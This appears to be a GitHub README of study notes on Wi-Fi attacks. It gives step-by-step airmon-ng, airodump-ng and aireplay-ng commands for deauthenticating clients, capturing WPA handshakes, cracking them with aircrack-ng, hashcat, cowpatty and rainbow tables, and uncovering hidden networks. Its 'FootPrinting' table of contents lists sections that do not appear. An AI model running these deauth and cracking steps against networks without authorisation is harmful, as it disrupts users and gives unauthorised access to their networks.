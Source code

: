# FootPrinting

## Tables des matière
 - [Google Hacking](#google-hacking)
 - [Whois Tool](#whois-tool)
 - [Harvester](#harvester)
 - [Shodan](#shodan)
 - [Zone transfer with dig](#zone-transfer-with-dig)

Enabling Monitor mode on your network card :
	
	Check your mode tiping "iwconfig". Put your network card down. Type "airmon-ng check <network_card_name>". Type "airmon-ng check kill <network_card_name>". 
	Type "iwconfig <network_card_name> mode monitor". Put your network card up.
	 
Capturing handshake with airodump :

	List all of the netwworks around you : "airodump-ng <network_card_name>"
	List all of the devices connected to a network : "airodump-ng -c <network_channel> --bssid <network_bssid> -w <name_file_you_want_to_create> <network_card_name>"
	In the same time you perform this command, type in another terminal : "aireplay-ng -0 0 -a <bssid> <network_card_name>"
	Press ^C and all the devices will be reconnected to the access point and you see in the terminal which you run the airodump command that the WPA handshake have been found.
	4 files have been created and you can open the .cap in wireshark. You can filtered by <eapol> in order to see the packets link to the reconnection.
	
Cracking with Aircrack: (CPU power) 

	You can brute-forcing th password by tiping : "aircrack-ng -w <wordlist> <file.cap>"

Cracking with Hashcat: (GPU power)

	In order to crack with Hashcat you must convert the .cap to a hashcat capture file --> https://hashcat.net/cap2hccapx/
	Cracking with hashcat : "hashcat -a <perform_level(2?)> -m <hashtype(2500?for_the_wpa2)> <file.hccapx> <wordlist>

Cracking with cowpatty :

	cowpatty -f <wordlist> -r <file.pcap> -s <name_access_point>

Creating wordlists :

	crunch - very useful, generate wordlist with (characters/words) in relation to the entries you made
	cupp (github) - generate worlds with (characters/words) in relation to the answers of their questions

Rainbow table : 

	These are useful for brute-force a hash code.
	In order to generate a rainbow table --> rtgen --> see help for your use.
	A .rt file is created. Don't forget to sort the rainbow table : rsort .
	You can retrieve a word by this hash --> rcrack . -h <hash> 

	--> For WPA-WPA2 carcking :
	
		-create file with the name of the essid of your access point (SFR_0F30?)
		-airolib-ng <rainbow_table_name> --import essid <essid_name_file>
		-airolib-ng <rainbow_table_name> --import passwd <wordlist>
		-airolib-ng <rainbow_table_name> --clean all
		-airolib-ng <rainbow_table_name> --batch
		-airolib-ng <rainbow_table_name> --verify all
		-aircrack-ng -r <rainbow_table_name> <file.cap>
	
Fluxion :

	Tool that automate all the steps.

Wifite :

	Tool that automate all the steps and more <-- very very useful

Finding and cracking hidden network :
	
	List all of the netwworks around you : "airodump-ng <network_card_name>"
	If you see an access point without name but with "<length: 0>, it is a hidden network 
	List all of the devices connected to a network : "airodump-ng  --bssid <network_bssid> --channel <channel_network> <network_card_name>"
	In the same time you perform this command, type in another terminal : "aireplay-ng --deauth <number_of_deauthtificated_packets> -a <bssid> -c <station(mac_adress_of_the_client)> <network_card_name>"
	The essid appears in the terminal you run the airodump command and you can connect to the hidden network
